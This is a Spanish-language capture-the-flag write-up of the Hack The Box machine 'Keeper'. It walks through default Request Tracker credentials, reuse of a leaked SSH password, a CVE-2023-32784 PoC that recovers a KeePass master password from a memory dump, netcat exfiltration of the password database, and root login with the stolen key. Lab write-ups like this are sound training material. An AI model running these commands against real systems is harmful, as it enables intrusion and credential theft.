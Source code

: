 ```yaml
---
title: Keeper
description: Keeper es una máquina Linux de dificultad fácil que presenta un sistema de gestión de tickets de soporte con credenciales por defecto. Al enumerar el servicio, se pueden encontrar credenciales en texto claro que permiten el acceso a SSH. Con acceso a SSH, se puede obtener un volcado de la base de datos de KeePass, lo cual permite recuperar la contraseña maestra. Una vez con acceso a la base de datos de KeePass, se obtienen las claves SSH de root, que permiten obtener una shell con privilegios en el host.
date: 2023-11-06
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-keeper/keeper_logo.png
categories:
  - Hack_The_Box
  - Machines
tags:
  - linux
  - hack_the_box
  - cve
  - data_leaks
  - misconfigurations
  - ssh
  - http
  - tcp
  - information_gathering
  - web_analysis
  - data_leak_exploitation
  - cve_exploitation
  - privilege_escalation

---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/keeper:-$ sudo nmap -sCV 10.10.11.227 -n -Pn -oN map1
```

![](/assets/img/htb-writeup-keeper/keeper2.png)

---
## Web Analysis & Data Leak Exploitation

![](/assets/img/htb-writeup-keeper/keeper3.png)

```terminal
/home/kali/Documents/htb/machines/keeper:-$ echo "10.10.11.227\tkeeper.htb\ttiquets.keeper.htb" | sudo tee -a /etc/hosts
```

![](/assets/img/htb-writeup-keeper/keeper4.png)

Busco las credenciales por defecto del servicio '4.4.4+dfsg-2ubuntu1'.

<https://docs.bestpractical.com/rt/4.4.4/security.html>
>"Be sure to change the password for the 'root' user of RT. The default password is 'password'. This can be changed via the RT web interface at: Preferences > About me"

![](/assets/img/htb-writeup-keeper/keeper5.png)

Encuentro 2 usuarios registrados en el sistema. Y en el usuario 'lnorgaard' encuentro una contraseña 'Welcome2023!'.
 
![](/assets/img/htb-writeup-keeper/keeper6.png)

![](/assets/img/htb-writeup-keeper/keeper7.png)

```terminal
/home/kali/Documents/htb/machines/keeper:-$ ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password: Welcome2023!
lnorgaard@keeper:~$ ls
	RT30000.zip  user.txt
```
---
## Privilege Escalation & CVE Exploitation

```terminal
lnorgaard@keeper:~$ unzip RT30000.zip
	Archive: RT30000.zip
	inflating: KeePassDumpFull.dmp
	extracting: passcodes.kdbx
```

<https://nvd.nist.gov/vuln/detail/CVE-2023-32784>

El archivo 'KeePassDumpFull.dmp' es un volcado de memoria o 'dump' de un proceso de KeePass. La Vulnerabilidad CVE-2023-32784 permite recuperar la contraseña maestra en texto claro a partir de un volcado de memoria, incluso si la base de datos de KeePass está bloqueada o el proceso de KeePass ya no está en ejecución.

Existe un Proof of Concept en github precisamente para esto.
Una vez clonado el PoC, monto un servidor para exportarlo a la maquina victima.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ git clone https://github.com/CMEPW/keepass-dump-masterkey.git

/home/kali/Documents/htb/machines/keeper:-$ python3 -m http.server 

lnorgaard@keeper:~$ wget http://10.10.15.26:8000/poc.py
```

Al explotar el CVE, la primera letra de la contraseña no se recupera.

```terminal
lnorgaard@keeper:~$ python3 poc.py -d KeePassDumpFull.dmp
```

![](/assets/img/htb-writeup-keeper/keeper9.png)

Realizo una busqueda del resultado ```●,dgr●d med fl●d``` y encuentro una palabra en danes que coincide 'rødgrød med fløde'.

Importo 'keepass.kdbx' con Netcat. E instalo Keepass para abrir el archivo anterior.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ nc -nlvp 1234 > keepass.kdbx
	listening on any 1234 ...

lnorgaard@keeper:~$ nc 10.10.15.26 1234 < passcodes.kdbx
	nc 10.10.15.26 1234 < passcodes.kdbx

	... connect to [10.10.15.26] from (UNKNOWN) [10.10.11.227] 60582
	
/home/kali/Documents/htb/machines/keeper:-$ sudo apt install keepass2

/home/kali/Documents/htb/machines/keeper:-$ keepass2 keepass.kdbx
```

![](/assets/img/htb-writeup-keeper/keeper10.png)

![](/assets/img/htb-writeup-keeper/keeper11.png)

![](/assets/img/htb-writeup-keeper/keeper12.png)

 Copio y guardo la clave 'PuTTY' en un archivo '.ppk'.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ echo 'PuTTY-User-Key-File-3.md: ssh-rsa Encrypt…' > key.ppk
```
Para conviertir la clave privada del archivo '.ppk' a un formato '.pem' que OpenSSH puede utilizar, descargo la herramienta Putty-Tools.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ sudo apt install putty-tools 

/home/kali/Documents/htb/machines/keeper:-$ puttygen key.ppk -O private-openssh -o key.pem

/home/kali/Documents/htb/machines/keeper:-$ chmod 600 key.pem

/home/kali/Documents/htb/machines/keeper:-$ ssh -i key.pem root@10.10.11.227

root@keeper:~# cat root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/556" target="_blank">***Litio7 has successfully solved Keeper from Hack The Box***</a>
{: .prompt-info style="text-align:center" }